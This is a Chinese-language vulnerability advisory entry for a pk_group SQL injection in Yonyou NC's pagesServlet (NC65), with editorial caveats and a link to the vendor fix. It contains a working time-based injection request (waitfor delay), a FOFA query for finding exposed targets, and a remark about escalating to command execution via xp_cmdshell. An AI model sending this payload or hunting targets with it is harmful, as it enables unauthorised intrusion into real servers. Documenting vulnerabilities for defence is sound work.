

# 用友NC pagesServlet pk_group SQL 注入

## 条目说明

- 对象与具体问题：用友NC；pagesServlet pk_group SQLi
- 版本、配置及部署条件：NC65；SQL Server延时
- 认证与权限前提：无Cookie样例
- 核验边界：已完成原始 Markdown 的文本审阅；未执行 PoC、未访问目标、未视检截图。来源所述影响与复现结果不等于本库独立验证。

## 证据边界与更正

以下记录原始资料的证据边界。可以由原文确定的产品、编号及格式问题已在本条修订；没有原始证据的版本、响应和补丁信息仍待核实。

- WAITFOR延时只证明SQLi候选，RCE另需xp_cmdshell权限/启用与证据
- XVE误放cnvd，HTTP未围栏；在野利用模板未引证
- 保留官方notice557线索，缺具体补丁版本

## 操作风险

命令/代码执行示例可能改变主机状态。保留原示例供静态分析；仅可在明确授权的隔离测试环境验证，事先准备备份与回滚。

## 技术资料与来源记录

## 漏洞描述

用友NC /portal/pt/servlet/pagesServlet/doPost接口存在SQL注入漏洞，攻击者通过利用SQL注入漏洞配合数据库xp_cmdshell可以执行任意命令，从而控制服务器。经过分析与研判，该漏洞利用难度低，建议尽快修复。

影响范围

NC65

## **漏洞状态**

| 漏洞细节 | 漏洞POC | 漏洞EXP | 在野利用 |
|------|-------|-------|------|
| 是 | 已公开 | 已公开 | 已知 |

### 风险等级

| 维度 | 评价 |
|----|----|
| 威胁等级 | 高危 |
| 影响面 | 广 |
| 攻击者价值 | 中 |
| 利用难度 | 低 |

## 漏洞复现

FOFA：app="用友-UFIDA-NC"

POC/EXP：

```http
GET /portal/pt/servlet/pagesServlet/doPost?pageId=login&pk_group=1'waitfor+delay+'0:0:5'-- HTTP/1.1
Host: 127.0.0.1
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/83.0.4103.116 Safari/537.36
Connection: keep-alive
```





## 修复方案

官方已发布修复方法：

https://security.yonyou.com/#/noticeInfo?id=557


---

> 来源：SourByte05/Vulnerability-Wiki-PoC（https://github.com/SourByte05/Vulnerability-Wiki-PoC）
